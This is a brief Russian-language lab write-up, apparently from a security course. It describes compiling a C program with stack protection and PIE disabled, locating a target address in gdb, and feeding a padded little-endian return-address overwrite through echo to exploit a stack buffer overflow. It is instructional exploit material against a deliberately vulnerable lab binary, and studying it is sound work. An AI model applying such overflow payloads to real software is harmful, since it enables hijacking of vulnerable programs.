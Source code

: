 Компилируем с нужными флагами: gcc -o lab2 lab2.c -fno-stack-protector -no-pie
Запускаем через gdb отладчик, с помощью disassemble ищем нужный адрес
0x4011d8 в формате little endian: \xd8\x11\x40\x00\x00\x00\x00\x00
echo -ne "AAAAAAAAAAAAAAAAAAAA\xd8\x11\x40\x00\x00\x00\x00\x00" > input.txt
./lab2 < input.txt